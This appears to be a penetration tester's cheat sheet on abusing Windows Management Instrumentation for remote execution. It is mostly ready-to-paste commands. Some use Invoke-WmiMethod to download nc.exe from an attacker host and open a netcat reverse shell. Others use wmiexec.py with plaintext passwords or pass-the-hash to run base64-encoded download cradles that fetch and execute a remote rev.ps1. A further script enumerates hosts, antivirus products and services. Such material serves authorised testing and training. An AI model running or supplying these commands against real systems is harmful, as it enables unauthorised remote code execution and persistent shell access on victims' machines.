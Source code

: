 ```yaml
---
description: Windows Management Instrumentation
---
```


# WMI

* [https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/](https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/)
* [https://hideandsec.sh/books/cheatsheets-82c/page/wmi](https://hideandsec.sh/books/cheatsheets-82c/page/wmi)




## PowerShell

Basic command to check if we have privileges to execute WMI:

```
PS > Get-WmiObject -Credential $cred -ComputerName PC01 -Namespace "root" -class "__Namespace" | Select Name
```

Execute commands:

```
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("powershell (New-Object Net.WebClient).DownloadFile('http://10.10.13.37/nc.exe', 'C:\Users\bob\music\nc.exe')")
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("C:\Users\bob\music\nc.exe 10.10.13.37 1337 -e powershell")
```



### WMI Enumeration

- [https://0xinfection.github.io/posts/wmi-basics-part-1/](https://0xinfection.github.io/posts/wmi-basics-part-1/)
- [https://0xinfection.github.io/posts/wmi-classes-methods-part-2/](https://0xinfection.github.io/posts/wmi-classes-methods-part-2/)
- [https://0xinfection.github.io/posts/wmi-registry-part-3/](https://0xinfection.github.io/posts/wmi-registry-part-3/)
- [https://0xinfection.github.io/posts/wmi-recon-enum/](https://0xinfection.github.io/posts/wmi-recon-enum/)

{% code title="Invoke-LocalWMIEnum.ps1" %}
```powershell
Get-WmiObject -Class Win32_ComputerSystem | select BootupState,UserName,TotalPhysicalMemory,SystemType,SystemFamily,Domain,DNSHostName,OEMStringArray | ft -AutoSize
Get-WmiObject -Class Win32_OperatingSystem | fl *
Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct | select PSComputerName,DisplayName,PathToSignedProductExe,PathToSignedReportingExe,ProductState,Timestamp | ft -AutoSize
Get-WmiObject Win32_Service | select Name,State,StartName,PathName | ? {$_.State -like "Running"} | findstr /vi "C:\Windows" | ft -AutoSize
Get-WmiObject -Class Win32_LoggedOnUser | select Antecedent,Dependent,PSComputerName | ft -AutoSize
Get-WmiObject -Class Win32_LogonSession | select AuthenticationPackage,LogonID,StartTime,Scope | ft -AutoSize
Get-WmiObject -Class Win32_QuickFixEngineering | select PSComputerName,Description,HotFixID,InstalledBy,InstalledOn | ft -AutoSize
Get-WmiObject -Class Win32_Share | select Type,Name,AllowMaximum,Description,Scope | ft -AutoSize
Get-WmiObject -Class Win32_IP4RouteTable | select PSComputerName,Caption,Mask,Metric1,Protocol | ft -AutoSize
Get-WmiObject -Class Win32_UserAccount | ft -AutoSize
Get-WmiObject -Class Win32_Group | ft -AutoSize
```
{% endcode %}




## wmiexec.py

```
$ wmiexec.py -codec cp866 snovvcrash:'Passw0rd!'@192.168.1.11
$ wmiexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 snovvcrash@192.168.1.11
```

Get a PowerShell reverse-shell:

```
$ sudo python3 -m http.server 80
$ sudo rlwrap nc -lvnp 443
$ wmiexec.py -silentcommand -nooutput snovvcrash:'Passw0rd!'@192.168.1.11 'powershell iEx (iWr "http://10.10.13.37/rev.ps1")'
```

When loading the cradle from a semi-interactive shell, you can combine with `Invoke-WmiMethod` to spawn a new PowerShell process:

```bash
wmiexec.py -silentcommand -nooutput snovvcrash:'Passw0rd!'@192.168.1.11 "powershell -enc $(echo -n 'Invoke-WmiMethod Win32_Process -Name Create -ArgumentList ("powershell -enc '`echo -n 'IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/rev.ps1")' | iconv -t UTF-16LE | base64 -w0`'")' | iconv -t UTF-16LE | base64 -w0)"
```




## SharpWMI

- [https://github.com/GhostPack/SharpWMI](https://github.com/GhostPack/SharpWMI)

```
PS > .\SharpWMI.exe action=exec [username=MEGACORP\snovvcrash] [passw0rd=Passw0rd!] computername=PC01 command="powershell -enc <BASE64_CMD>"
```
